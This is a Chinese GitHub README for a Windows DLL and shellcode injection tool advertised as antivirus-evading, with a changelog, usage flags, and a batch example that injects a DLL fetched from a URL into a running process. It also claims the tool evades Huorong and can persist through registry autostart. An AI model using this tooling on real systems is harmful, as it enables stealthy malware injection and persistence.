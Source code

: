 ![](https://img.shields.io/badge/joe1sn-S_inject-green)  ![](https://img.shields.io/badge/windows-C++-yellow)

<h1><p align="center">S-inject</p></h1>

<p align="center">DLL+Shellcode的Windows注入免杀工具</p>

<p align="center"><img src="./README.assets/image-20240205141410967.png"></p>

只是罗列各种方法，免杀推荐搭配其他技巧，要具体灵活使用

**须知：**

1. 反射式注入参考了著名github项目：https://github.com/stephenfewer/ReflectiveDLLInjection
   该项目为反射式注入支持的DLL
2. Shellcode使用base64编码后的shellcode
3. 相关测试的DLL文件在`Test Files`文件夹中

**免责声明：** 本工具仅供教育和授权测试目的使用。开发者及贡献者不支持、不鼓励也不赞成任何非法或未经授权的使用。 用户有责任确保其使用本工具的行为符合所有适用的法律法规。严禁将本工具用于任何未经授权的活动。 开发者及贡献者对使用本工具造成的任何损害或后果不承担责任。使用前请自行承担风险。 通过使用本工具，您同意这些条款，并对您的行为承担全部责任。

# Update
- **[2025-7-1]** 修改为cmake项目，在项目中新建`build`目录后，使用`cmake ..`后`cmake .. -G "Visual Studio 17 2022" -A x64` 可以生成64位的sln项目，之后使用`cmake --build . --config Release`可以直接编译
- **[2025-4-6]** **重要：** 新创建分支(branch)：mcp，相关的DLL在这里维护。MCP模型上下文协议自动完成注入项目地址：https://github.com/Joe1sn/inject-mcp
- **[2025-4-3]** 使用gui界面时自动生成`imgui.ini`，优化界面排版

- **[2025-2-19]** 变化主题
- **[2025-2-17]**

1. 新增远程URL加载DLL
2. 由于 [issues 4](https://github.com/Joe1sn/S-inject/issues/4)等的反应，使用参数快速完成注入

- **[2024-7-7]** 优化一个进程选择Bug，详细见 [issues 2](https://github.com/Joe1sn/S-inject/issues/2)
- **[2024-6-18]** 修复选择进程和遍历进程快速闪烁的问题。修复后需要重新开打功能才能看到新的进程。
- **[2024-6-6]** 

1. 更好的GUI布局，支持Docking。
  2. 代码整理，优化项目文件结构，尽量贴合我认为（~~知道~~）的现代cpp规范。
  3. 遍历部分使用 `NtQuerySystemInformation`  （虽然会导致快速刷新）

- **[2024-5-24]**  **更新GUI图形化界面**，之前版本只保留原始二进制文件。貌似之前就被defender识别到了....

- **[2024-5-16]** 更新远程线程注入，让取消DLL注入更加便捷，便于第二次注入
- **[2024-4-1]** 更新DLL的暴力注入，详细见readme->使用->DLL自动注入/暴力注入
- **[2024-3-8]** 更新64位`CreateRemoteThread`为直接系统调用，方法采用`SysWhispers3`项目

# New Feature

- [2025-2-19] V2.2.1更新

  更换了主题配色，更多配色在`app/utils/theme.hpp`内，更换主题需要重新编译（因为有的主题没有测试完，所以暂时不会运行时改变主题）

  ![image-20250219105558106](./README.assets/image-20250219105558106.png)

- [2025-2-17] V2.2更新

  1. 新增远程URL进行Get请求加载DLL，可以实现dll文件不落地加载dll，由于依赖反射式注入，所以dll的格式应该与反射式注入的相同，格式为：https://github.com/stephenfewer/ReflectiveDLLInjection

     ![image-20250217173155506](./README.assets/image-20250217173155506.png)

  2. 添加参数可以快速完成注入

     `-method`：使用的注入方法

     - `rmtdll`：远程线程注入DLL
     - `refdll`：反射式注入DLL
     - `apcdll`：APC队列注入DLL

     - `net`：从网络加载DLL注入DLL
     - `rmtsc`：远程线程注入Shellcode
     - `apcsc`：APC队列注入Shellcode
     - `ctxsc`：上下文注入Shellcode

     `-proc`：注入进程的名字

     `-path`：dll的文件路径、dll的url（http开头）、base64后的shellcode

     `-pid`：进程`PID`

     用例

     ```
     .\S-Inject_x86_gui.exe -method net -proc "x32dbg" -path "http://127.0.0.1/reflective_x86.dll"
     ```

     ![image-20250217193111847](./README.assets/image-20250217193111847.png)

     可以据此编写对应的bat脚本来实现自动注入，如这里的`test.bat`

     ```
     @echo off
     D:\Github\S-inject\Release\S-Inject.exe -method net -proc "x32dbg" -path "http://127.0.0.1/reflective_x86.dll"
     pause
     ```

     这样双击该bat脚本即可向`x32dbg`的进程使用`网络加载`注入url为`http://127.0.0.1/reflective_x86.dll`的dll

- [2024-6-6] V2.1更新

  1. Docking，拖拽可以重新排版

     ![image-20240606124658850](./README.assets/image-20240606124658850.png)
     
  2. ImGUI窗口排版通过`imgui.ini`保存，可参考我的排版（ini文件位于bin中，使用时放于同一目录下）
  
     ![image-20240606224950591](./README.assets/image-20240606224950591.png)

# 免杀效果

远程shellcode注入等功能可免杀火绒，VNC无感，可注册表添加开机自启动

![image-20240216112653373](./README.assets/image-20240216112653373.png)

![image-20240216113029381](./README.assets/image-20240216113029381.png)

![image-20240216113432922](./README.assets/image-20240216113432922.png)

![image-20240216113917066](./README.assets/image-20240216113917066.png)

# 支持功能

![image-20240205124826998](./README.assets/image-20240205124826998.png)

**DLL注入**

- 远程线程注入
- 反射式注入
- APC调度注入

**Shellcode注入**

- 远程线程注入
- APC调度注入
- Context上下文注入

**可注入进程遍历**

# 使用

1.x版本（无图像化界面）使用说明见：`oldREADME.md`

![image-20250217193433513](./README.assets/image-20250217193433513.png)

直接勾选对应功能，选择DLL/Shellcode，和对应进程的PID

<img src="./README.assets/image-20240520101608876.png" alt="image-20240520101608876" style="zoom: 80%;" />

![image-20240520101704029](./README.assets/image-20240520101704029.png)

最后点击`start`开始注入

